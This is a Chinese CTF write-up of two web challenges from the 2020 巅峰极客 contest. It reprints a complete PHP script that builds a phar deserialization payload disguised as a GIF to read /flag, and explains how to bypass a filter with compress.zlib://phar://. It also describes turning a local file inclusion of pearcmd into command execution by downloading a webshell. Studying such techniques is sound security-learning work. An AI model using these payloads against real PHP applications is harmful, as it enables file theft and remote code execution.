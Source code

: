 ```yaml
---
title: 巅峰极客2020
date: 2020-09-28 15:54:28
tags: CTF
categories: CTF
---
```


# 2020巅峰极客部分WP

参考链接:https://www.gem-love.com/ctf/2634.html

主要不是题目的解答，看了颖奇大佬的文章，再根据自己在做题目的过程中记忆，对题目单纯的进行理论上的复现，原理是一样的

## BabyPhp2

打开题目

![](https://i.loli.net/2020/09/28/V6MiunxmdfpzkEC.png)

这里提示已经很明显了，这里登陆不上的。

然后扫目录，得到www.zip，源码泄漏，然后打开源码，进行源码的分析

![](https://i.loli.net/2020/09/28/zUTKC5ySladEGtF.png)

文件读取的漏洞，但是这个读取方法里面的有waf，魔术方法就需要制造调用，构建POP链。现在就是要找到这个链头了。

![](https://i.loli.net/2020/09/28/Xar8jLGyDCcxM2e.png)

有一个魔术方法之中有修改的内容，可以这里是可以利用，接下来就是想办法将 这个地方包含进来还要执行这条链。剩下的就是`file_get_contents`这个函数了。利用伪协议将php文件读取进来，还要能够执行。`phar`伪协议满足要求。但是

![](https://i.loli.net/2020/09/28/QN7ylUWLEfZrwCu.png)

已经被销毁了。这里提醒一下，伪协议是可以联合使用的。

`compress.zlib://phar://`

这样就可以绕过限制读取文件，再加上那个upload.php上传的时候改一个名字，问题也就解决了。下面贴上大佬的脚本。

```
<?php

class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public $backup;
    public function __construct()
    {
        $this->nickname = new Reader();
        $this->backup = "/flag";
    }
}
class dbCtrl
{
    public $token;
    public function __construct()
    {
        $this->token = new User;
    }
}

Class Reader{
    public $filename;
    public $result;
}

$y1ng = new dbCtrl();

$phar = new Phar("web1.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($y1ng);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();

@rename("web1.phar", "y1ng.gif");
```

之后将gif上传即可

![](https://i.loli.net/2020/09/28/2pFyVEOhMnDPSwd.png)

这里利用是否有序列化的数据出现判断是否协议生效，这样就可以调节文件路径到底是怎样的。

phar反序列参考链接：https://paper.seebug.org/680/



# MeowWorld

这道题有个Hint：`register_argc_argv`

然后这个题很容易看出漏洞是本地文件包含，并且限制了包含的目录，就别想逃出来了。

然后就是利用pear这个包管理器，下载我们自己的马儿，然后，包含，来命令执行。

![](https://i.loli.net/2020/09/28/yDpaCFUfLvwQm2E.png)

```
http://127.0.0.1:8080/index.php?f=/usr/share/pear/pearcmd&+list
```

这个就相当于在本地运行

```
pear list
```

这样也就不难猜到提示词的用意了。